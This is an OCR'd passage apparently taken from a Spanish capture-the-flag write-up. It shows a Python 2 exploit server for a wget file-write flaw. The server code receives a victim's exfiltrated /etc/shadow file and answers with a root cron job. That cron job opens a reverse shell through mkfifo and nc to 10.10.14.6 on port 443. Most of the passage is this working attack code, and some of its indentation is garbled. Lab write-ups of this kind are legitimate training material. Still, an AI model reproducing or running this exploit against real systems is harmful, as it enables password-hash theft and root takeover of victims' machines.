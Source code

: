     def do_POST(self):
        # In here we will receive extracted file and install a PoC cronjob

        print "We have a volunteer requesting " + self.path + " by POST :)\n"
        if "Wget" not in self.headers.getheader('User-Agent'):
        print "But it's not a Wget :( \n"
            self.send_response(200)
            self.end_headers()
            self.wfile.write("Nothing to see here...")
            return

        content_len = int(self.headers.getheader('content-length', 0))
        post_body = self.rfile.read(content_len)
        print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)

        print "Sending back a cronjob script as a thank-you for the file..."
        print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()
        self.wfile.write(ROOT_CRON)

        print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"

        return

    HTTP_LISTEN_IP = '0.0.0.0'
    HTTP_LISTEN_PORT = 80
    FTP_HOST = '10.10.10.55'
    FTP_PORT = 21

    ROOT_CRON = "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f \n"

    handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

    print "Ready? Is your FTP server running?"

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    result = sock.connect_ex((FTP_HOST, FTP_PORT))
    if result == 0:
    print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
    else:
    print "FTP is down :( Exiting."
    exit(1)

    print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

    handler.serve_forever()
    ```

1. habrimos en una ventana el puerto 21 para el ftp
